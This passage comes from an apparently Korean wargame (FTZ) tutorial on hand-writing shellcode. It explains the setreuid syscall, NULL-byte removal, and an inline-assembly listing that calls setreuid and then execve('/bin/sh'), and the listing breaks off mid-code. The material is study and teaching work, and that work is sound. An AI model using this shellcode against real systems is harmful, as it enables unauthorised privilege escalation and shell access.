 <img data-action="zoom" src='{{ "assets/ftz/shellcode/17.png" | relative_url }}' alt='relative'>  

``` bash
cat /usr/include/asm/unistd.h | grep "setreuid"
```

## 2) 어셈블리어로 쉘코드 작성

setreuid 함수를 호출하는 것은 execve 함수로 /bin/sh를 호출한 것보다 훨씬 간단합니다.  

### 1) 불필요한 부분 제거  

setreuid 함수를 실행하기 위해 꼭 필요한 내용은 다음과 같습니다.  
-> 매개변수 값을 레지스터에 넣기 (ebx, ecx에 0xc1c 값 넣기)  

-> setreuid 함수 호출 번호를 레지스터에 넣기 (eax에 0x46 값 넣기)  

-> setreuid 함수 호출하기 (int $0x80)  

### 2) 최적화된 어셈블리어 코드 제작  

setreuid 함수를 호출하기 위해 eax에는 0x46을, ebx와 ecx에는 0xc1c를 넣어주고 함수를 호출하는 명령어만 있으면 됩니다.  

즉, 3가지 내용을 어셈블리어로 제작하면 다음과 같습니다.  

``` c
// intel format
mov ebx, 0xc1c
mov ecx, ebx
mov eax, 0x46
int 0x80
```

### 3) 어셈블리어 작성 및 NULL 문자열 수정  

2번에서 간단하게 작성한 어셈블리어는 NULL 문자열을 포함하기 때문에  
NULL 문자열을 포함하지 않도록 수정해야 합니다.  

그래서 0xc1c 값을 저장하는 데 32bit ebx 레지스터 대신 16bit bx 레지스터를 사용하고,  
0x46 값을 저장하는 데 32bit eax 레지스터 대신 하위 8bit al 레지스터를 사용해야 합니다.  

또한, xor 연산을 하는 이유는 이전에 쓰여졌을 수 있던 레지스터에 남은 잔여 데이터를 없애고 0으로 초기화하기 위함입니다.  

이를 고려하여 작성한 어셈블리어 코드는 다음과 같습니다.  

``` c
// realsh.c
// AT&T format
void main(){
        __asm__ __volatile__(
				// setreuid 함수
                "xor %ebx, %ebx         \n\t"
                "mov $0xc1c, %bx        \n\t"
                "mov %ebx, %ecx         \n\t"
                "xor %eax, %eax         \n\t"
                "mov $0x46, %al         \n\t"
                "int $0x80              \n\t"
				// execve 함수
                "xor %eax,%eax          \n\t"
                "push %eax              \n\t"
                "push $0x68732f2f       \n\t"
                "push $0x6e69622f       \n\t"
                "mov %esp, %ebx         \n\t"
                "push %eax              \n\t"
                "push %ebx              \n\t"
                "mov %esp, %ecx         \n\t"
                "mov %eax, %edx         \n\t"
                "mov $0xb, %al          \n\t"
```
